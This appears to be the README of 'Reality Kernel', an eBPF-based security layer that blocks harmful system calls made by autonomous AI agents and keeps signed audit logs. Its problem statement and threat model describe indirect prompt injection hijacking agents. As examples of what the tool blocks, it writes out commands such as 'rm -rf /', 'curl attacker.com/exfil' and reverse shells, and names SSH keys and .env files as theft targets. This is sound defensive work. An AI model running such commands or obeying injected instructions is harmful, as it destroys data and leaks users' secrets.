

<p align="center">
  
</p>

<h1 align="center">Reality Kernel</h1>

<p align="center">
  <b>In-kernel eBPF runtime security barrier & deterministic execution attestation for autonomous AI agents.</b>
</p>

<p align="center">
  <a href="LICENSE"></a>
  <a href="https://pypi.org/project/realitykernel/"></a>
  <a href="https://www.rust-lang.org/"></a>
  <a href="https://kernel.org"></a>
  <a href="#performance"></a>
</p>

---

## ◈ The Problem: AI Agents Have Root-Level Risk but Toy-Level Defenses

When you connect autonomous AI agents (Claude Computer Use, AutoGPT, CrewAI, LangChain) to a production environment, you grant them real operating system privileges: executing bash commands, reading files, modifying databases, and calling external APIs.

Most current security solutions operate at the **application layer** (prompt filtering, API proxies, LLM guardrails). This creates a fatal blind spot:

1. **Prompt Injections Bypass Text Filters:** Indirect prompt injections embedded in untrusted web pages, emails, or PDFs can hijack the LLM’s reasoning, causing it to generate malicious instructions.
2. **Text Filters Cannot Stop Linux Syscalls:** Once the agent process decides to run `rm -rf /` or `curl attacker.com/exfil`, text-based guardrails cannot block the system call from reaching the kernel.
3. **Logs are Mutable:** Compromised agent processes can erase local logs. Security teams have no cryptographic proof of what the agent actually executed.

---

## ◈ The Solution: In-Kernel Enforcement (Sub-Millisecond Fast-Path)

**Reality Kernel** shifts enforcement down to the **Linux Kernel** using **eBPF (Extended Berkeley Packet Filter)** and **LSM (Linux Security Modules)**. 

No matter what prompt the agent saw, and no matter what jailbreak it encountered, Reality Kernel validates the proposed action in user-space memory and intercepts unauthorized operations directly in the kernel before syscall execution.



---

## ◈ Quickstart (Python SDK)

Install the production client package from PyPI:

```bash
pip install realitykernel
```

### 1. Guarding an Agent Action

```python
import os
from realitykernel import RealityKernel, ActionBlocked, ActionNeedsReview

# Initialize the kernel client
rk = RealityKernel(api_key=os.environ.get("RK_API_KEY", "local_mode"), agent_id="agent-01")

prime_intent = "Read application error logs in /var/log/app"
action = "cat /var/log/app/error.log"

try:
    # Deterministic pre-dispatch verification (sub-millisecond in-memory)
    verdict = rk.guard(action, prime_intent)
    print(f"Verdict: {verdict.verdict} | Latency: {verdict.latency_ms}ms")
except ActionBlocked as e:
    print(f"Blocked by Reality Kernel: {e}")
```

### 2. Non-Breaking Shadow Mode

Audit agent workflows in production without interrupting actions:

```python
rk = RealityKernel(
    api_key="local_mode",
    agent_id="test-agent",
    shadow_mode=True  # Non-blocking evaluation
)

# Divergent actions are flagged for telemetry without halting execution
verdict = rk.guard("curl https://suspicious-domain.com", "Summarize user ticket")
print(verdict.verdict)      # "BLOCK"
print(verdict.shadow_mode)  # True
```

---

## ◈ Architectural Comparison

| Dimension | App-Layer Guardrails (NeMo, Lakera, Llama Guard) | **Reality Kernel (eBPF + Rust)** |
| :--- | :--- | :--- |
| **Enforcement Point** | User-space API proxy | **Pre-Dispatch Symbolic Gate + Kernel eBPF Probes** |
| **Jailbreak Resistance** | Low (Heuristics can be bypassed) | **Deterministic** (Pre-dispatch gate + in-kernel socket denial) |
| **Latency Impact** | High (300ms – 1,000ms+ secondary LLM calls) | **Sub-Millisecond** (Local in-memory evaluation) |
| **Process Confinement** | None (Cannot block rogue bash calls) | **Deterministic cgroup / PID monitoring & Egress Blocking** |
| **Audit Integrity** | Mutable plain text logs | **SHA-256 rolling hash chain & Ed25519 signatures** |

---

## ◈ Workspace Structure & Building from Source

Reality Kernel is architected as a modular Rust workspace:

```text
reality-kernel/
├── rk-ebpf-probes/    # Kernel-space eBPF C/Rust probes (Aya framework)
├── rk-ebpf-common/    # Shared structs and event definitions between kernel & user
├── rk-engine-core/    # Superposition intent mapping & fast-path policy evaluator
├── rk-sensor/         # In-kernel ring buffer consumer & telemetry dispatcher
├── rk-policy/         # Capability manifests & manifest parsing
├── rk-signing/        # Ed25519 cryptographic attestation & SHA-256 state chaining
├── rk-types/          # Strongly-typed boundary schemas
├── sdk/               # Python client SDK (published on PyPI)
└── xtask/             # Build automation for cross-compiling eBPF probes
```

### Prerequisites
* Rust 1.80+ (`nightly` required for compiling BPF probes)
* Linux kernel 5.15+ with `CONFIG_BPF_LSM=y` and `CONFIG_DEBUG_INFO_BTF=y`
* `bpf-linker` (`cargo install bpf-linker`)

### Compiling the Engine & Probes

```bash
# 1. Clone the repository
git clone https://github.com/Keter-Lab/reality-kernel.git
cd reality-kernel

# 2. Build user-space crates
cargo build --workspace

# 3. Build eBPF probes
cargo xtask build-ebpf --release

# 4. Run parity and unit test suite
cargo test
```

---

## ◈ Performance & Latency Profile

Reality Kernel is designed to run in-line with autonomous agent execution loops without introducing perceptible lag:

* **Local In-Memory Evaluation:** Pre-dispatch policy evaluation runs locally in host memory, completely bypassing the 300ms–1,000ms network roundtrips required by secondary LLM-based guardrails.
* **Low-Overhead eBPF Interception:** System call probes execute inside the Linux kernel within microseconds, introducing zero perceptible penalty to host processes.
* **Non-Blocking Telemetry:** Audit events are streamed to user space via BPF ring buffers asynchronously, ensuring event capture never stalls agent task execution.

---

## ◈ Threat Model & Handled Vectors

* **Indirect Prompt Injection:** Adversary plants hidden instructions in data ingested by the agent.
* **Unauthorized File Exfiltration:** Agent attempts to read SSH keys, `.env`, or credential stores.
* **Rogue Subprocess Spawning:** Agent attempts unmanifested `curl`, `bash -i`, or reverse shells.
* **Audit Tampering:** Any unauthorized post-execution change breaks the Ed25519 `prev_hash` chain.

---

## ◈ Contributing

We welcome contributions from security researchers, systems programmers, and AI builders!
* See [CONTRIBUTING.md](CONTRIBUTING.md) for development guidelines.
* Join discussions in GitHub Issues and PRs.

---

## ◈ License

Reality Kernel is dual-licensed under:
* **Apache License, Version 2.0** ([LICENSE-APACHE](LICENSE-APACHE))
* **MIT License** ([LICENSE-MIT](LICENSE-MIT))

You may choose either license at your option.
